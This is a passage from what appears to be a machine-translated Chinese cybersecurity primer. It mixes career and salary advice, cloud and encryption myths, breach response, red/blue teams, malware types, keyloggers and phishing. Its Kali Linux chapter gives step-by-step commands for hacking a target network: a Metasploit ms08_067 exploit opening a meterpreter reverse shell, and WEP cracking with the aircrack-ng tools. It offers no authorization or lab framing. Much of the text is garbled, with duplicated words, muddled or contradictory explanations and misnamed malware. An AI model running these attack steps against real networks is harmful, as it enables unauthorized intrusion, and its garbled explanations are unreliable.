有能力得到我想要的东西。这是因为当我下班后，我会回家继续学习，看视频课程，读书，当然还有听音频书。（顺便说一下，我最喜欢的）。与此同时，其他人回家是玩 Xbox 或 PlayStation，或者只是在 YouTube 上看猫视频，对吧？

当然，这比从午休开始就在酒吧里喝酒要好。我也认识那种人，他们已经在那种状态持续了好几年了。我想和你们分享这些，是因为你可能会为自己设定一个可以实现的预期。但如果你把计划告诉给某人（也许是你的最好的朋友），可能会导致冲突，甚至导致他们根本不相信你。有时候，最好把事情留存在心里，只留给自己知道。网络安全领域有多少钱景？

种类非常多。在网络安全领域你能赚多少钱？随你想赚挣多少。你所做的就是设定预期并努力学习。如果你坚持下去，在未来的 5-8 年内，你可以轻松拿到六位数的收入。

# 第 10 章 数据操纵风险

并不是每种攻击都是为了盗窃或破坏现有物质。网络攻击的另一个元素是对现有数据进行操纵，使得机器在用户不知的情况下下一段时间内受到攻击者的控制。当网络犯罪分子在网上发布密码和用户身份时，这一点显而易见，但如果企业数据被修改，这一点就不那么明显了。

考虑到这些攻击没有造成明显的损害，用户检测起来要困难得多；如果他们能注意到的话。尽管即使是最微小的更改也可能对业务运营方式产生严重后果。

根据美国国家情报局局长詹姆斯·克拉珀（James Clapper）的话，如果政府官员（无论是军事还是民领域）无法完全信任他们获得的信息，他们所做的决策将受到严重影响。

### 间谍

后门是一个特定的担忧，因为它们很难被识别，并且为框架或整个网络提供了大量的访问权限。被破坏的框架可能让网络犯罪分子或某个国家能够保留和监控信息，并改变过滤数据的能力，甚至更改现有信息。无论框架处于危险状态多久，这种操纵都会一直存在。

例如，2015 年，瞻拓网络（Juniper Networks）发布公告，称其在其产品工具包购买的防火墙网络代码框架中发现了后门通道。这些是随处用于保护企业和政府框架的类似物品。这些间接访问在发现之前持续了大约三年——这意味着无法得知为了黑客的利益，有多多少信息从客户群中被污染、控制或提取了。


其中一个间接访问允许外部用户对防火墙进行远程控制。另一个被考虑的后门是对通过网络的活动进行监控。这意味着黑客在窃听一切。针对这种情况的高级黑客手段推断是某个国家的责任。在某些情况下，国家派遣特工渗透竞争对手企业的网络网络，并放置次级通道，通过这些通道筛选活动、客户行为，甚至影响基本的决策过程。这对于军工制造业和承包商来说尤为重要。

### 云端担忧

来源：`HTTPS://WWW.SECURITYTECHHAWAII.COM/CYBERSECURITY`

正如任何有效的创新一样，它越流行，作为目标的吸引力就越大。云已成为一种根深蒂固的服务模式和理念，因为没有少数组织依赖于云管理来完成任务。例如，对于将数据外包的企业来说，安全性要求可以降低，因为可以依靠云的优势，即安全性由供应商负责。尽管如此，它还把云优势作为最合理的方案整合在了一起。

但存在一个微妙的问题，即主权。云信息的安全并不仅仅等同于加密。此外，访问信息的趋势是在境外进行的。网页可能对此有特定的考量，但这些信息——在传统世界设置中——可能会受到外国法律的约束。事实上，即使依赖于另一个国家的法律，也无法保证他们不会更改事先受保护的信息。信息可能会被不同的政府部门传唤和检查，或在未经许可的情况下被外部人员共享。在今年俄罗斯的一个特殊案例中，互联网服务提供商（ISP）被要求存储通信的内容和元数据，并为任何编码的信息提供加密密钥。任何通过 ISP 的云信息都可能被俄罗斯政府和情报部门破译。这导致主流 VPN 必须关闭其俄罗斯节点。在其中一个案例中，服务器根据规定从 VPN 供应商处被收购。云服务预计在未来十年内增长 18%，围绕其神圣性的担忧可能会随之全面增加。*

### 解决云安全问题

要做的第一件事就是提供端到端加密。这种加密只有在无延迟的情况下才能成功，这确保了性能在此不会受到负面影响。公司还必须获得密钥的全所有权以有效地实施加密。尽管某些公司对服务提供商管理安全密钥持有积极态度，因为这减轻了管理问题的压力，但也存在缺点。第三方提供商将被要求向政府交付数据，因此他们将失去对文档安全的控制。要问的问题是否存在一种折中方案，允许人们避免控制权的丢失。

另一种方案是允许加密密钥的所有者有能力解密用于公共服务上的密钥。使用这种模型，他们可以拥有密钥和硬件。另一种选择是保持硬件留在本地。这意味着元数据和数据都在本地，为那些将安全视为首要任务的公司提供了保障。

任何公司选择的路线都是根据最适合业务的方法来决定的。虽然某些公司由于其规模和灵活性，倾向于拥有密钥（随业务变化而提供），但也有人如果将控制权交给第三方就会满意。这种策略将根据所需的控制程度以及适应的能力来决定。另一个方面是拥有 100% 数据留存控制，这是所有公司的需求。

随着地区和国家层面监管级的不断增加，数据留存变得越来越重要。这个问题在欧洲尤为突出，考虑到欧盟的成员国。许多跨国公司都有将数据留存标准化为单一解决方案的目标。对于在不同地区设有办公室的公司，符合国际法规是必须的。尽管如此，一家在欧洲有不同办公室的美国公司将不得不遵守英国规定和欧盟的规定。在美国，州法也可能适用。在欧洲，某些国家必须根据数据产生的管辖区保留数据。

为了使问题复杂，不同类型的数据有不同的需求，这决定了数据可能托管的地方以及必须采取的方法。企业可能需要两个解决方案或者只需要一个允许其符合所有形式数据的。由于法规的变化是不可避免且定期的，企业必须拥有数据存储或对留存拥有控制权。在适应变化的法规方面具有灵活性将对公司有利。法规的变化需要经过仔细考虑并纳入企业的战略规划中，以便在情况变化时留有余地。

持续变化。

另一个方面是在涉及内部合作者时采用高级身份验证。为了尽量减少密码被黑客破解的风险，建议使用双重身份验证。用户如果重复使用相同的密码，或者仅进行细微修改，可能会让自己暴露在数据泄露和攻击的风险之中。为了避免这种漏洞，建议考虑两步协议或多因素密码，这样系统就不那么容易被入侵。

在这种情况下，一个例子是 Google 使用双步验证的方式，密码需要由发送到用户移动设备或另一个注册邮箱的代码来支持，以验证确实是本人在访问系统。

第四个方面是对外部合作者进行身份验证。这种特定类型的身份验证存在某些风险。毕竟在业务中，与外部供应商、客户和合作伙伴共享数据是至关重要的。因此，IT 必须在控制共享内容、共享时长方面发挥作用，并必须监督可以在需要时停止的共享权限控制。

现在有许多关于共享数据和访问文件如何导致安全风险的示例。例如，网络研讨会的参与者被允许持续访问某个公司共享文件夹超过五年。在此期间，公司的所有权可能已经发生了变化，但对共享信息的访问权限仍然不变。

这一因素的原因更为重要，即知识产权流向第三方的风险。在与第三方合作时，数据共享是经常发生的。必须存在保护措施，以确保所有方都清楚谁有权访问特定信息，以及此类访问的条款和条件。IT 的作用是提供相关工具，使个人能够管理权限。安全团队的作用是了解任何时刻共享过的所有数据。

当内部企业用户之间发生协作时，人们可以放心，风险有时是受控的，因为数据处于公司边界内。另一方面，IT 必须满足外包项目贡献者的需求，并与承包商及其他人合作。对于 IT 而言，面临的重大挑战是如何确保其控制之外的数据具有机密性和完整性。为了实现这一点，公司必须为贡献者制定非常严格的身份验证策略，并对授予的权限有良好的监控。

最后一个元素是关于提供用户友好共享服务带来的风险，这些服务存在对公司机密和敏感数据的风险。协作的增加和员工行为的变化可能对业务产生巨大影响。必须让利用业务控制的安全文件共享具有吸引人的优势，以便使用户能够切换掉他们目前使用的文件共享方法。企业用户有能力使用 DropBox 甚至 Google Drive 等方便的文件共享服务。

这些工具允许用户在任何时间、任何设备、任何指定位置访问文件，并进行实时更改。对于公司而言，问题是在用户开始使用未经授权的解决方案之前实施企业级文件同步工具和政策。这只是答案的一部分。公司必须承认，仅仅处理文件数据挑战长期来看将带来问题。需要的是一种创建完全安全的工作场所协作的解决方案。例如，确保用户的服务体验像 Google Drive 一样好尤为重要。如果不是，用户就不会愿意切换。用户对文件共享服务有预期水平，企业必须匹配这一水平，以便用户能够迁移到更安全的平台。

在沿着虚拟桌面方法创建文件共享策略时，这种用户体验必须比笔记本电脑体验更好，才能获得成功。在文件共享方面，策略必须交付用户认为可接受的设置。确保这一点发生的一种方法是启用更多功能。这将需要具备数据备份和保护功能的文件共享能力。它还允许远程办公。这将使双重目标实现，从而为企业创建一个安全环境，并保持高标准的用户体验。这些方法是实现云端全安全的一些重要组成部分。它们允许 IT 部门完成工作，并确保企业拥有稳定的业务连续性。

## 破解关于数据加密的迷思

你不需要成为加密极客也能理解加密的概念或它为什么重要。其实这很简单；它将你的信息隐藏在代码后面，使得对于任何没有正确解密码的人来说，它都是无用的。多年来，关于加密存在许多误解。其中大部分基于谎言或半真半假。以下是对这些迷思的简要评估，以及它们不真实的逻辑原因。

### 加密是大组织的专利

这是最大的误解之一。也许其起源可以追溯到这样一个事实：每当讨论加密时，讨论都围绕大组织展开。很难理解为什么人们会这样想。

加密不仅仅是为了大组织设计的；任何在互联网上共享信息的人都需要加密。今天，被黑客攻击的不仅是大组织，还有个人。没有人是安全的。只要你在线，要知道一直有人在监视。

你知道吗？超过 40% 的网络攻击针对的是小型企业和个人。原因是他们以安全系统薄弱而闻名。因此，网络犯罪分子可以很容易地从他们那里找到他们需要的一切。如果没有加密，某些人可以入侵你的设备并将其作为进入另一个系统的手段。你的设备可能在不安全的家庭网络上被破解，当你将设备连接到家庭网络时，黑客就会迁移到工作网络，这一直是他们的意图。

为了防止你的数据落入坏人手中，请尽量确保加密你的数据。有几种方法可以实现。你可以为家庭设备和电器寻找更简单的解决方案。记住，无论你是在经营小企业还是在家里有一个个人网络，加密数据都是重要的。

### 拖慢网络

加密和资源消耗的问题是合理的。在大多数情况下，在加密或解密某些数据时，你会感到网络性能变得有些缓慢。然而，你不应该避免此作为不加密和保护数据的借口。加密你信息的益处大于在加密或解密数据的短时间内网络性能变慢所带来的挑战。

如今，这种论点几乎站不住脚了。我们拥有专为极高速度运行设计的设备。这些设备处理加密时不会对网络产生太大干扰。你可能甚至不会注意到网络延迟。这是因为处理器多年来取得了巨大的进步。在现代，你只需很小的功率就能完成很多事情。

我们今天用于计算机的大部分处理器使用 `AES NI` 技术构建的。`AES NI` 技术赋予了机器卓越的速度，让你能够顺畅地解密和加密数据。据报道，这项技术使加密速度达到通常速率的三倍，同时将解密速度加快了十倍。

### 实施挑战

实施加密并没有像一些人想象的那么困难。事实上，加密最基础的形式——SSL 证书（它允许你浏览互联网）实际上是在你察觉不到运行的。SSL 证书确保了当你在浏览器和设备之间交换数据包时，你在线访问的数据受到了保护。

许多人仍然认为，你需要一个专家来在你的服务器上安装 SSL 证书。就加密而言，这是最大的谬误之一。SSL 提供商有非常简单的指令，你只需遵循这些指令，点击几次即可加密你的服务器。


## 加密非常昂贵

负担能力问题是另一个取决于相对衡量的问题。对于一个人来说昂贵的东西，对另一个人来说可能只是九牛一粟。在加密方面，许多企业犯了一个错误假设，认为加密负担不起，但你始终可以从不同的加密服务中享受令人惊喜的折扣优惠。

每个加密程序都是针对特定的目标群体设计的。

事实上，其中某些程序可能对你来说还遥不可及，但并非所有都是如此。

你应该做一些研究，找到一个符合你需求的程序。这也能让你体验不同的感受，或许当你开始欣赏你所收到的服务时，你很快就会发现未来可能需要支付更多费用来获取顶级的加密服务。

## 加密加固你的系统

虽然加密会使他人几乎无法解读你的信息，但并不意味着你完全安全。从理论上讲，破解加密密钥可能很困难，但绝非是不可能的。世界上有许多实验室投入精力和资源，寻找绕过加密协议的方法。

即使采用了最先进的加密程序，安全泄露仍然会发生。这背后的原因之一不是黑客成功解密了信息，而是对加密密钥的处理不当。有些人将加密密钥存储在他们所加密的同一个系统中。在处理加密密钥和协议时，你必须尽职调查，以确保你工作的所有内容都受到保护。

## 加密是为合规机构提供的

人们为了避免加密数据所付出的努力程度令人惊讶，但面临风险的是他们自己的资源。当然，任何在监管市场运营的实体都必须遵循既定的指南，否则他们将失去运营许可。数据安全是一项严肃的任务，当局对此采取了坚定的立场。公司必须尽职调查以保护他们的客户。

无论你是否有义务加密数据，加密敏感数据都是一个逻辑上的概念，因为数据可能会落入坏人之手，导致你陷入可能让你的公司破产的法律斗讼中。

## SSL 加密神话

`SSL`是一种在你在在线浏览时保护数据的加密方法。鉴于它几乎总是不需要你任何输入就能直接运行，许多人认为它加密了所有数据。事实并非如此。`SSL`只加密正在传输的数据。它不保护静态数据。你应该主动去加密你所能访问的所有数据，尤其是当它们被写入磁盘时。

## 加密数据无法被盗取

市面上最优秀的安全产品会尝试在他们的知识范围内提供顶级的保护。然而，有许多因素的共同作用可能会使得这些程序难以相应地保护你的数据。

最安全的公司和个人是那些相信自己的数据永远是安全的人，结果就是他们不断寻找保护数据的方法。如果你认为因为加密了数据所以数据就受到了保护，那么你就变成了一个待宰的羔羊，可能等到你的数据被擦除干净，或者`FBI`站在你家门口指控你犯了你完全不知的犯罪时，才会意识到自己的错误。

## 组建任务小组

无论发生了什么，或者面临什么风险，有一点是肯定的——你被黑客攻击了。你的隐私暴露在全世界面前。你最不想做的就是恐慌模式。为了管理局面，你必须清晰、快速地思考。克制推卸责任或指责他人的冲动。在那时，整个公司都处于攻击之下，因此没有人真的关心负责漏洞利用的部门。到那时，你的公司品牌可能已经在社交媒体上热搜，新闻网络正在播放关于你公司的突发新闻。

黑客攻击会发生，但并不是世界末日。你必须有一套计划，以便你的团队能够关注面前。压力将是巨大的，但每个人必须遵循既定的协议。根据你组织的规模和你可以利用的资源，你可能需要一个危机管理小组。

召开紧急会议并通知所有员工当前的状况。提醒他们，在这个动荡时期，他们必须保持冷静，并在可能的情况下避免使用社交媒体。他们不应该与任何人回应或讨论关于黑客攻击的任何事情。所有涉及黑客攻击的事宜将由公司专门指定的专来处理这一特定问题。

与相关部门的负责人进行讨论，并尽快了解情况。此外，识别你系统中可能导致黑客攻击的技术缺陷，并确保你已经准备好人员应对媒体，并妥当地处理客户沟通和关系。

记住，你的客户正在试图理解发生了什么，这正如你试图理解局面的情况一样。如果你不及时解决他们的顾虑，局面可能会迅速失控。由于黑客攻击，你始终面临着诉讼的风险，因此请务必准备好法律团队来开始调查并寻找可能的解决方案。现在不是措手不及的时候。

过去大多数公司所犯的错误之一就是对黑客攻击保持沉默，只有在被权威部门迫采取行动后才揭露真相。如果你这样做，你的客户会感到被欺骗，然后你将面临更大的问题要处理。如果你的业务还没有完善到建立了所有这些协议，请在意识到自己被攻破时立即与相关的第三方联系，让他们指导你如何继续进行。

## 控制局面

应对黑客攻击事件的任务小组根据攻击的性质承担不同的角色。当你处理随之而来的公关噩梦时，你应该有的人在幕后工作以控制损害。他们在确定问题后必须做的事情之一就是想出一个修补方案。补丁将为你的技术挑战提供临时的修复，或者消除可能瘫痪你系统的病毒。

这方面的很好的例子是2014年的`Heartbleed`漏洞（Gujrathi, 2014; Sanchez, 2014）。互联网上至少17%的服务器受到了影响。漏洞一旦被检测到，安全补丁几乎立即可用。那些反应迅速的人在问题失控之前就解决了问题。然而，一些网络管理员反应太慢了，导致他们的服务器暴露时间比应该的要长。

在安全泄露之后，你几乎总是需要重置密码。你可能不知道有多少数据被泄露，也不知道泄露数据的性质，所以为了安全起见，鼓励每个人更改密码是合理的。

将设备断开网络，并对任何已暴露或可能暴露的设备实施隔离。如果黑客攻击是内部人员或由具有内部访问权限的人协助，请封他们的账户，撤销他们的权限，并让你的安全团队调查他们的设备。

目前职位报告已经显示了这一点，但到2019年底，我们将证实这一点。你将看到对网络安全专业人才的需求急剧增加。

为了确保你拥有最大的成功机会，我希望关注三个特定的领域。第一是安全管理，第二是进攻性网络安全，第三是防御性网络安全。那么，让我们深入了解每一个领域，以便你理解这些重点领域内部发生了什么。

首先，我们将从管理开始。管理是日常的安全运营和安全计划。在这里，你负责管理安全人员、管理安全运营，甚至管理安全计划，因此你正在进行如制定策略、策略和程序等工作。在管理层面对各种不同的事务进行调度和任务分配。你还负责管理进攻端的安全团队，通过模拟攻击来评估威胁和漏洞。

因此，你正尝试攻击并入侵信息系统。诸如伦理黑客、渗透测试、执行第三方漏洞评估，并向这些客户和用户提供反馈。这些都是你在进攻端要做的工作。现在，在进攻端，你通常不提供任何纠正性的配置或行动。你的工作是评估威胁和漏洞，并在进入防御端时报告这些问题。

这是大多数安全角色的核心所在。你正在保护信息系统免受潜在攻击，因此你负责规划和设计防御机制。你正在配置组件、运行和维护系统、从防御角度进行测试和评估、监控、响应事件，各种事情都发生在防御端。好了，这些就是你可能最容易获得成功的三个重点领域。

在这些角色中，也存在专门的岗位。这里是对网络安全中存在的不同类型专业领域的简要概述。有网络安全、法医、密码学、风险管理、合规性、云安全和虚拟化安全，在网络安全中你可以做的事情多得。

在这些专业领域，还有许多不同的工作。诸如网络安全工程师、信息系统安全官、事件处理员、安全审计、安全评估员等。各种不同的机会导致了人们在尝试进入这个行业时产生最大的困惑。这是因为你几乎不知道从哪里开始。有这么多不同的角色和不同的工作，你可能在想：我该从哪里开始呢，对吧？你会看到有一堆职位名称。然而，在这个行业有几个特定角色的收入相当丰厚。

我发现收入最高的四个角色是：网络安全分析师、IT安全顾问、网络安全工程师，显然，如果你想进入管理层成为首席信息安全官（`CISO`）。你可以看到在该领域工作可以赚到的收入。从平均薪资来看，安全分析师的年薪约为7万英镑。安全顾问年薪约为8.5万英镑。网络安全工程师年薪约为9万英镑，而首席信息安全官的年薪约为17.5万英镑。好了，这是根据`payscale.com`，而且仅仅是英国的平均水平。

所以，我不能代表世界其他地区，但我可以代表英国说，如果你作为安全专业人员工作，你将获得非常丰厚的报酬。现在，为什么你想要加入？为什么你现在想进入网络安全领域？

嗯，第一，需求极大，而供应极低，对吧？薪水令人难以置信。我的意思是，`CISO`岗位的17.5万英镑，那是疯狂的数字，对吧？

这个行业有许多机会，有许多工作。我刚刚揭示了所有不同的工作机会、所有你可以担任的各种。在这个行业中你可以做的一切事情，所以无论你的技能组合如何，在网络安全领域都有你的机会。这个行业只会不断增长，随着更多攻击的出现，它将急剧增长。会有更多的增长，等它增长时，我们谈到了2021年将花费1万亿美元。到2021年，你将成为该领域的资深人士。你将会是那个人。这就是为什么你现在想要加入。

# 第12章 反向工程的工作原理

涉及到反向工程时，这是一个非常值得理解的概念。首先，我们需要理解你在考虑反向工程时想要实现什么。它应该是一个分步骤的计划。简单来说，你正试图发现攻击是如何完成的、谁负责攻击，以及它源自哪里；现在我们知道我们被攻击了，哪些受到了影响，我们可以通过许多任务或方法来实现这一点。我们可以通过调试器或反编译器来分解代码，但最好的方法之一是使用沙箱。

当我们谈到沙箱时，它只是一个设计用于某种方式运行不可信或可利用代码的环境，这种方式可以防止代码损坏系统的其他部分，我们不仅局限于应用程序本身，还会查看合法软件中的代码。要对恶意软件进行反向工程，确实需要执行诸如断开被感染主机的连接，使其在物理上与网络隔离，并且这个特定的设备或主机只能用于分析恶意软件。顺便说一下，虚拟化为我们提供了很多便利，你可以在虚拟机（`VM`）中这样做，但你必须小心，因为你必须维护运行虚拟机的宿主机本身。虚拟机程序存在多个可以被恶意软件利用的漏洞。


涉及到硬件，我们可以做几件事。大多数情况下，我们必须依赖于某些配置不当的产品或网站，公司只能对该特定产品的安全性获得有限的知识或保证。本质上，我们必须接受发布者的声明，即他们所做的事情或他们提供的软件是安全的，这通常发布在`OEM`（原始设备制造商）文档或产品白皮书中。你可以查看这些，因为我保证，如果攻击者发现你正在运行特定的软件，他会查看与之相关的漏洞。

对于处理高价值数据资产的公司（例如可能来自军事领域），他们必须能够验证所引入机器制造供应链的每一个阶段。国防部建立了“可信晶厂”（Trusted Foundry）计划，它对供应商进行认证，强制供应商证明自己具备运营安全链的能力。这样，组织就能确保运行软件和数据处理的所有电子设备不包含任何后门或远程监控或控制机制。某些组织将完全控制其供应链。

他们能够建立一个可信计算环境，在其中他们知道从操作系统到驱动程序、固件、硬件、芯片或应用程序的每个元素的操作都是一致且防篡改的。关于这一点我有一些想法，涉及到一些政府，但最好不要提，因为他们极可能监控所有与网络安全相关的出版物。无论如何，测试你的环境并寻找缺陷的最有效方法之一是对其进行“兵演习”（wargame）。为此，我将会有一些团队。不同的团队有不同的职责，你可能会看到颜色编码是如何发挥作用。首先，有所谓的红队，我们也有蓝队，当然我们还有白队。有些人可能会将其称为紫队，即红队和蓝队的结合，但为了认证目的，我将关注这三个。当涉及到红队时，他们有特定的职责。首先，他们是攻击你的力量。结果是希望他们是白帽。

那些扮演黑帽角色的人。基本上，他们是伪装成坏人的正经人。他们的职责包括能够使用真实工具或真实世界的方法模拟真实世界中的攻击。通常，他们会以黑盒测试的方式进行攻击，基本上他们对网络一无所知，就像大多数攻击者一样，而且他们非常具有攻击性，事实上，他们会尝试通过任何必要手段获取访问，由于他们如此具有攻击性，我们通常将他们描述为“虎队”（tiger team）。红队也可能由第三方公司或合同履行此角色的顾问组成。

我们拥有的另一种团队是蓝队。该团队的成员负责响应任何安全泄露或可能发生的任何疑情况。他们有一套要遵循的流程和程序，以确保保护组织。他们将使用最新、最强大的工具来帮助保护基础设施。他们唯一的缺点（尽管在现实世界中也是如此）是，他们不知道红队何时攻击或从哪里攻击，因此，他们必须能够每天 24 小时、每周 7 天、每年 365 天应对任何攻击。

基本上，这些都是好人。我们还有白队，他们纯洁无瑕。白队就像控制演习或环境的军事人员。他们将指定谁、什么、何地和何时，他们还确保每个人理解交战规则，这包括范围、时间以及我们目前为止讨论的所有内容。你可能会听过其他颜色的团队，例如绿队（负责培训个人）或资产所有者。

你甚至可能会认为，我们可能正在观察紫队，即红队和蓝队之间的象征性关系，因为根结底，我都在同一个团队，努力保护我们的环境，这实际上是提高组织安全性的一种方法。

# 第 13 章：运行和使用 Kali Linux 的逐步指南

一旦你下载了 Kali Linux 并且靠近你想要入侵的网络，你就可以开始黑客攻击过程。以下是关于如何操作的几个分步指南。

## 针对旧版 Windows 系统的基础攻击

我们将从一种适用于许多旧版本系统的非常基础的攻击开始。这可能不是最实用的方法，但对于初学者来说是一个很好的入门攻击。通过这种攻击，你可以对涉及的内容有一个良好的了解，并在此基础上深入。

1. 启动 Kali Linux 并打开一个新的终端。
2. 然后然后启动 Metasploit。这是 Kali Linux 自带的程序。它将对网络执行攻击。你可以通过输入命令 `msfconsole` 来启动它。这可能需要几分钟，请耐心等待。
3. 一旦 Metasploit 启动，你就可以输入一些推进攻击的命令。它们按顺序如下：
   - `use windows/smb/ms08_067_netapi`
   - `set PAYLOAD windows/meterpreter/reverse_tcp`
   - `set LHOST (你的 IP 地址)` [你可能不知道自己的 IP 地址是什么。你可以通过打开一个新的终端并输入命令 `ifconfig` 来查找。你会在输出中看到你的 IP 地址。]
   - `set LPORT 4444`
   - `set RHOST (目标网络的 IP)`
   - `set RPORT 445`
   - `exploit`

完成所有这些操作后，你应该已经连接上了。如果你不确定该做什么或哪些命令可用，只需输入 `help`，就会显示一个命令列表。

1. 现在你进来了。你已经成功入侵了计算机，可以检查网络弱点或你需要的任何其他内容。

该漏洞很有可能不起。如果目标网络阻止了 445 端口，你将需要使用不同的策略。此外，某些较版本的 Windows 会自动阻止此漏洞。没关系，因为我们还有其他攻击方法供你使用。

## 通用 WEP 攻击

接这种攻击对于当前的操作系统和网络将更有用。我们开始：

1. 确定无线适配器的名称。目标计算机可能有多个网络。如果是那样，你必须知道你想要扫描的那个名称。你正在寻找显示为 `wlan` 的一个。如果显示为 `eth`（以太网）或 `lo`（环回地址），那么它就不是我们要找的。要查看计算机拥有的所有适配器，在终端中输入 `ifconfig`。只需记录 `wlan` 适配器即可。
2. 开启监听模式。你可以通过使用命令 `airmon-ng start wlan0` 来实现。该命令中的 `0` 代表你想要入侵的网络。只需将你选择的网络数字替换那个 `0`。输入此命令将创建一个被称为监听（monitor）的虚拟控制台。在你的显示器上可能被称为 `mon`。如果你使用的是最新版本的 Kali Linux，你可能会看到与 `mon` 不同的监听名称。它可能是 `mon0` 或 `wlan0mon`。此外，`airmon-ng` 命令可能无法正常工作。如果发生这种情况，尝试使用 `airmon-ng check kill`。该命令看起来如下：`airmon-ng <check|check kill>`。
3. 你可以开始捕获数据包。这简单意味着你正在拦截跨网络连接的数据片段。你可以使用 `airodump-ng` 命令开始捕获过程。这将从在空气中传输的数据包中获取数据。当你这样做时，你会看到目标网络的名称。
4. 从那里开始，你可以将捕获的数据包存储在文件中。使用 `airodump` 命令来实现这一点。你将使用的完整命令看起来像这样：`airodump-ng mon0 (加上你想捕获的文件名)`。在这个示例中，`mon0` 中的 `0` 是网络名称。所以你使用的数字可能与给出的示例不同。你可以在像这样的文件中找到 `(文件名).cap` 你捕获的数据包。但你不能立即这样做。你必须等待直到有足够的数据。
5. Wi-Fi 被破解了。此时，你只需输入命令 `aircrack-ng` 来确定密码。记住，这需要几秒钟，所以不要期望每次都有即时结果。此命令需要在新的终端中执行。
6. 程序可能会询问你想要入侵哪个 Wi-Fi，但仅当有多个可选时才会。如果密码很弱，你应该很快就能进入。对于非常强的密码，你需要更多的数据包。当你拥有 15,000 个数据包后，程序将再次尝试，如果不成功，它将在每增加 5 个数据包时继续尝试。

## 恶意软件

恶意软件是所有类型病毒的集合。病毒是人类创建的有毒程序。病毒不会自动生成系统。恶意软件根据其性质分为八类：

- 蠕虫
- 病毒
- 木马
- 广告软件
- 间谍软件
- 垃圾邮件
- 机器人程序
- 勒索软件

### 蠕虫

蠕虫是一种恶意软件计算机程序，它会自我复制若干次。一旦进入计算机，它将通过电子邮件和 U 盘传播。通常，计算机在学校、学院和机构中连接在一起的。因此，如果一台计算机有蠕虫，它也可以传播到其他计算机。如果蠕虫在你的计算机上，你的计算机速度会变慢并增加互联网服务的成本。

### 病毒

病毒可以用任何计算机语言编写。病毒本身基于任何程序。病毒本身不仅自我复制，还会影响系统上的信息。我们将计算机中的一个文件夹复制到另一个名为 `.exe` 的文件夹中，当我们双击病毒时就会开始运行。它影响机器人、歌曲和视频并执行文件。病毒通过互联网、U 盘传播。

### 木马

木马与蠕虫和病毒非常相似。主要工作是使用杀毒软件和防火墙等软件保护我们的计算机。木马是以与杀毒软件和防火墙以外的其他方式设计的，其安全性较低并会注入其他病毒。

这会为黑客打开你电脑的后门。因此，你的个人和重要信息会在未经你许可的情况下被盗取。

### 广告软件

它通过广告传播。这种广告软件病毒不会对你的电脑造成太大伤害，但它会在我们的手机和电脑上显示广告。

这种恶意软件通常伴随着免费软件和从不受欢迎的网站下载的程序出现。

它的设计初衷是让开发者推广软件，但黑客利用它来获利。

### 间谍软件

你可能听过这个名字。它会在你不知情的情况下跟踪我们的系统。


这种软件还通过你下载的免费软件传播。破解软件会带有安装程序出现。这会将你的个人信息和浏览信息发送给远程用户。

此外，当你浏览时，间谍软件会在你不知情的情况下在你的电脑上安装不受欢迎的软件。

### 垃圾邮件

垃圾邮件是电子邮件中为了骚扰你的没邮件。


这是一种用于商业广告的方法。但有时黑客会用它来发送垃圾病毒。当你打开那封邮件时，病毒就会在你的电脑上运行。

### 机器人

机器人可以被称为高级蠕虫型病毒。它的设计目的是在没有人工干预的情况下访问互联网。它可以用于好事，也可以用于坏事。

在这些类别中，黑客创建机器人并为他们的服务器增加声誉。它将在中心工作。

机器人对于黑客窃取护照、网络流量、分析、服务攻击和打开门有用。

### 勒索软件


勒索软件是一种恶意软件。它让你无法使用电脑上的信息。它还会更改数据行。

通过在你的电脑屏幕上向黑客发送消息，如果你的电脑开启了该信息，我们将为你发送一份所谓的“赎金”。

例如，最近的“Vannakrai”威胁了每个人。

## 保护电脑免受恶意软件的说明

- 不要打开来自未知地址的邮件。因为病毒、勒索软件等是通过电子邮件传播的。
- 邮件中的附件文件在扫描后应小心打开。
- 系统应该定期运行操作系统和防病毒软件。
- 你应该至少每周用防病毒软件扫描一次电脑。
- U 盘、硬盘等，在连接到系统时先扫描后打开。
- 你的密码必须至少每 6 个月更改一次。
- 如果你的电脑受到勒索软件攻击，请立即断开网络。
- 经常备份系统中的数据是非常好的。即使你的电脑被病毒感染了数据，你仍然可以使用备份的数据。

### 4. 键盘记录器是如何攻击的？

键盘记录器方法非常危险。所以你所有的密码都可能被盗取。


我们在键盘记录器系统上输入的每个键都会将分数发送给黑客。你甚至看不出电脑上是否有键盘记录器软件。让我们进入“所有程序”查看我们电脑里通常有什么软件。但这个键盘记录器不在所有程序软件中。这个软件被隐藏了。

键盘记录器可以分为两类：

| 软件键盘记录器 | 硬件键盘记录器 |
| :--- | :--- |

#### 软件键盘记录器


这种这种，键盘记录器软件通过互联网通过其他恶意软件安装，并在网吧中心可用。你在安装了键盘记录器的系统中输入的输入的每个字母都会被记录。例如，如果你在浏览器中输入“Gmail”，这个词就会记录在键盘记录器中。无论你输入什么，它都会将所有的键盘记录保存为一个文件，这样你就可以在被发现之前保存电脑上的任何文件。黑客获取所有它们并了解你所有的信息。

#### 硬件键盘记录器

这种键盘记录器与之前的键盘记录器类似。但它通过软件窃取数据。硬件键盘记录器是连接到电脑硬件上的。


这些经常在网吧中遇到，硬件看起来像 U 盘。


这是个人电脑 CPU 的正面或背面。然后是另一侧。连接后，你在电脑上输入的所有信息都会保存在这个硬件键盘记录器中。当你离开网吧后，黑客就会打开它。

当你进入服务中心时，你必须查看是否有相关的设备。在使用 Gmail、银行时，你不能使用另一台电脑或笔记本电脑。尽可能在你自己的电脑上使用。


在使用别人的电脑上使用银行账户，你可以使用银行登录页面上的虚拟字键。

### 5. 钓鱼攻击

钓鱼是黑客使用最频繁的攻击方法。黑客使用这种方法窃取密码和用户名。


它的主要特征是创建一个与真实网站相似的假互联网。

#### 假网站

如果你想偷取某人的 Facebook 用户名和密码，他们会创建一个像 Facebook 一样的假网页。它看起来真的像 Facebook。


社会工程师使用多种工具创建这种虚假互联网并将链接发送给他人。一旦你点击它，就会……
